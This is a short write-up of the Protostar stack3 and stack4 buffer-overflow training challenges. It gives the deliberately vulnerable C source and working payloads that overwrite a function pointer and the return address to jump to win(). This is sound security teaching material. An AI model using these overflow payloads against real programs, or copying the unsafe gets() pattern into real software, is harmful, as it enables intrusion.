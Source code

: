 ## Stack : Function Redirection

**Stack 3** [ [Description](https://exploit.education/protostar/stack-three/) ]

source.c
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
- it has function pointer fp and buffer overflow

Test Running
```c
$ ./stack3
AAAA
```
Overwrite fp
```c
$ python -c 'print "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUU"' | ./stack3
calling function pointer, jumping to 0x51515151
Segmentation fault
```
What is the address of win() function?
```c
$ objdump -d stack3 | grep win
08048424 <win>:
```
Final
```c
$ python -c 'print "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP"+"\x24\x84\x04\x08"' | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```
**Stack 4** [ [Description](https://exploit.education/protostar/stack-four/) ]

source.c
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
- This time no function pointer but don't worry
- we can control eip, right?

Testing in gdb
```c
$ gdb -q ./stack4
Reading symbols from /opt/protostar/bin/stack4...done.
(gdb) run
Starting program: /opt/protostar/bin/stack4
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUU

Program received signal SIGSEGV, Segmentation fault.
0x54545454 in ?? ()

(gdb) print/c 0x54
$2 = 84 'T'
```
win() address
```c
$ objdump -d stack4 | grep win
080483f4 <win>:
```
Final Payload
```c
$ python -c 'print "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"+"\xf4\x83\x04\x08"' | ./stack4
code flow successfully changed
Segmentation fault
```
